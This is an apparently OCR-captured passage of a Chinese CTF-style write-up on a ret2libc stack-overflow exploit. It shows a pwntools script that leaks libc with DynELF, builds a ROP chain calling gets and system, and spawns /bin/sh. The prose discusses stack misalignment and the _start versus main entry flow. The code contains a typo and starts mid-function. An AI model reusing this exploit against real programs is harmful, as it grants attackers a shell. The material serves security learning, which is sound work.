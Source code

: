 ```python
                 break
          else:
                 content += c
                 up = c
    content = content[:4]

    # content = p.recvuntil('\nN',True)
    # print(content)
    # if not content:
    #     content = '\x00'
    # else:
    #     content = content[:4]

    print("%#x => %s" %(address, (content or '').encode('hex')))
    return content

d = DynELF(leak,elf = ELF('./ret2libc3'))

system_addr = d.lookup('system','libc')
print("system address = " + hex(system_addr))

bss_addr = 0x0804a040
pr = 0x0804841d

payload2 = flat(['a'*112,plt_gets,pr,bss_addr,sytem_addr,main,bss_addr])

print("###sending payload2####")
p.sendline(payload2)
p.sendline("/bin/sh\0")

p.interactive()

```

这段代码在泄露第一个数据之后就失败了，我调试了好久，最后才想起来，`payload1 = '\x90'*112 + p32(plt_puts) + p32(main) + p32(address)`这里如果使用的是main，那么堆栈就会不平衡，导致溢出点变化（参见之前从112变成104）。但是如果改成返回到start_addr，泄露的数据就会更多（虽然还是没有成功）。
一个事实是汇编程序的入口是_start，而C程序的入口是main函数
> 执行的流程是：
> GCC将你的程序同crtbegin.o/crtend.o/gcrt1.o一块进行编译。其它默认libraries会被默认动态链接。可执行程序的开始地址被设置为_start。
> 内核加载可执行文件，并且建立正文段，数据段，bss段和堆栈段，特别的，内核为参数和环境变量分配页面，并且将所有必要信息push到堆栈上。
> 控制流程到了_start上面。_start从内核建立的堆栈上获取所有信息，为__libc_start_main建立参数栈，并且调用__libc_start_main。
> __libc_start_main初始化一些必要的东西，特别是C library（比如malloc)线程环境并且调用我们的main函数。
> 我们的main会以main(argv,argv)来被调用。事实上，这里有意思的一点是main函数的签名。__libc_start_main认为main的签名为main(int, char , char )，如果你感到好奇，尝试执行下面的程序。
https://www.mi1k7ea.com/2019/03/05/%E6%A0%88%E6%BA%A2%E5%87%BA%E4%B9%8Bret2libc/
